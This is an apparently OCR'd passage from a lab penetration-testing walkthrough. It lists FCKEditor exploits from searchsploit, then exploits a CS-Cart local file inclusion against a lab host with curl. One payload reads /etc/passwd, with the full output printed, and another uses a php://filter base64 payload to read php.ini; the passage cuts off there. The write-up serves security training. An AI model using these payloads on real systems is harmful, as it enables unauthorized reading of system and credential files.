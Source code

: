 ```bash
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
FCKEditor Core - 'Editor 'spellchecker.php' Cross-Site Scripting         | exploits/php/webapps/37457.html
FCKEditor Core - 'FileManager test.html' Arbitrary File Upload (1)       | exploits/php/webapps/12254.txt
FCKEditor Core - 'FileManager test.html' Arbitrary File Upload (2)       | exploits/php/webapps/17644.txt
FCKEditor Core 2.x 2.4.3 - 'FileManager upload.php' Arbitrary File Uploa | exploits/php/webapps/15484.txt
FCKEditor Core ASP 2.6.8 - Arbitrary File Upload Protection Bypass       | exploits/asp/webapps/23005.txt
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~$ file /usr/share/exploitdb/exploits/php/webapps/17644.txt
/usr/share/exploitdb/exploits/php/webapps/17644.txt: ASCII text, with CRLF line terminators
kali@kali:~$
Exploitation
CS-Cart Local File Inclusion Vulnerability
The vulnerability in question is https://www.exploit-db.com/exploits/1872/, and it can be exploited as follows:

kali@kali:~$ curl 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=/etc/passwd%00'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
dovecot:x:104:111:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
postfix:x:105:112::/var/spool/postfix:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
<br />
<b>Fatal error</b>:  Class 'PHPMailer' not found in <b>/var/www/classes/phpmailer/class.cs_phpmailer.php</b> on line <b>6</b><br />
kali@kali:~$
Note that remote file inclusions will not work in this case. By using base64, we can read any file on the system (otherwise it would execute all *.php files). The improved proof of concept is as follows:

kali@kali:~$ curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00'| base64 -d 2>/dev/null
[PHP]
```